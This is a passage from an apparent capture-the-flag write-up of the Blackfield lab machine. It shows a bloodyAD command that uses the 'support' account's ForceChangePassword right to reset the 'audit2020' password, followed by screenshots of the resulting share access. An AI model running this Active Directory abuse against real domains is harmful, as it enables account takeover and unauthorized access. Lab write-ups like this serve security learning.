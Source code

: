 We can see that `support` user has the `ForceChangePassword` Permission on `audit2020`.    

We can abuse it by running `bloodyAd`.   

```bash
 python3 bloodyAD.py -d BLACKFIELD.local --host BLACKFIELD.local --dc-ip 10.10.10.192 -u support -p "#00^BlackKnight" set password audit2020 Xtromera@123
```

<br/> 
<img src="/img/Blackfield_Screenshots/Pasted image 20250123101537.png" alt="1" style="width:700px; height:auto;">
<br/>

We can see the successful change of the `password`.    

We can double check using `smbmap`.  

<br/> 
<img src="/img/Blackfield_Screenshots/Pasted image 20250123101720.png" alt="1" style="width:700px; height:auto;">
<br/>

We have a new access to `forensic` folder.   

<br/> 
<img src="/img/Blackfield_Screenshots/Pasted image 20250123101816.png" alt="1" style="width:700px; height:auto;">
<br/>
